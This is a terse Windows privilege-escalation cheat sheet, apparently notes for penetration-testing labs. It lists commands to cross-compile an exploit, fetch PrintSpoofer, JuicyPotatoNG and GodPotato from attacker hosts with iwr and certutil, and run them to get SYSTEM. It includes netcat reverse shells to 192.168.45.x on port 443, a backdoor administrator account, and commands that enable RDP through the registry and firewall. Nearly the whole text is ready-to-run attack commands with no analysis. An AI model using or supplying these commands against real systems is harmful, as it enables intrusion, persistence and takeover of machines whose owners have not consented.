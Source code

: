 ### Cross-Compile

```bash
i686-w64-mingw32-gcc 40564.c -o pwn.exe -lws2_32
```

```jsx
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

### PrintSpoofer

```jsx
iwr -uri http://10.10.137.147:8888/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
.\PrintSpoofer64.exe -i -c powershell.exe
```

if error jumps during download try:

```jsx
$ProgressPreference = "SilentlyContinue"
-UseBasicParsing (required -Outfile)
```

### Potatoes

**JuicyPotatoNG**

```jsx
cd \Windows\Temp
certutil -urlcache -split -f http://192.168.45.234/JuicyPotatoNG.exe
.\JuicyPotatoNG.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\test.txt"
certutil -urlcache -split -f http://192.168.45.234/nc64.exe
.\JuicyPotatoNG.exe -t * -p "C:\Windows\Temp\nc64.exe" -a "192.168.45.234 443 -e cmd.exe"
```

[https://github.com/antonioCoco/JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG)

**GodPotato**

```jsx
certutil -urlcache -split -f http://192.168.45.247/GodPotato/GodPotato-NET4.exe
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c C:/Windows/Temp/shell.exe"

.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe 192.168.45.247 443"
net user /add [username] [password]
net localgroup administrators [username] /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

```jsx
net user /add kali SuperPass123!
net localgroup administrators kali /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
